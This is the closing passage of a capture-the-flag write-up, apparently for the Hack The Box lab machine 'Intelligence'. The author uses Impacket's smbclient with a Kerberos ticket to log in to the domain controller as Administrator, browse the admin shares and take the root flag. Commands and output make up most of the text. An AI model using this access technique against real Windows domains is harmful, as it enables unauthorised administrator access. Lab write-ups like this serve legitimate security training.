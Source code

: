 This time it works. We can finally use the Impacket smbclient script to connect as administrator:

```sh
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] [Errno Connection error (dc.intelligence.htb:445)] [Errno -2] Name or service not known
```

Another problem! This time a simple one, I'd forgotten to add the DC to my hosts file:

```sh
┌──(root💀kali)-[~/htb/intelligence]
└─# echo "10.10.10.248 dc.intelligence.htb" >> /etc/hosts
```

Try again for one last time:

```sh
┌──(root💀kali)-[~]
└─# impacket-smbclient Administrator@dc.intelligence.htb -k -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# cd Users
# cd Administrator
# cd Desktop
# ls
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 .
drw-rw-rw-          0  Mon Apr 19 01:51:57 2021 ..
-rw-rw-rw-        282  Mon Apr 19 01:40:10 2021 desktop.ini
-rw-rw-rw-         34  Fri Oct  8 12:56:30 2021 root.txt
# get root.txt
# exit

┌──(root💀kali)-[~]
└─# cat root.txt                                     
<HIDDEN>
```

We've finally rooted the box. That was pretty tough for me, I need to do more Windows boxes!

See you next time.
